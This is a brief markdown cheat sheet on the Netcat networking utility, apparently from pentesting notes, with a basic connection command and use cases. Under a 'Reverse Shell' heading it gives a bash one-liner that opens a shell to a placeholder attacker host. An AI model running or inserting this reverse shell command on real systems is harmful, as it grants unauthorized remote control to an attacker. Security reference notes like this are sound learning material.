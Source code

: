 # 📡 Netcat (nc)

## Description
Netcat is a networking utility for reading/writing to network connections using TCP/UDP.

## Basic Usage
```bash
nc -nv 10.10.10.5 4444
```

## Reverse Shell
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

## Use Case
- Banner grabbing
- Port listening
- Reverse shells
